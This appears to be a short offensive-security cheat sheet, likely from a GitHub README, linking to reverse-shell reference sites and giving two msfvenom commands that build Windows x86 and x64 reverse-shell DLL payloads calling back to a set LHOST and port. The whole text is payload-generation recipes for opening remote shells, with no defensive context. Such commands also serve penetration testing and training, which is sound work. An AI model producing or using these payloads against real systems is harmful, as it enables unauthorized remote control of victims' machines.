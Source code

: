 #### Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

x86

```
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80
```
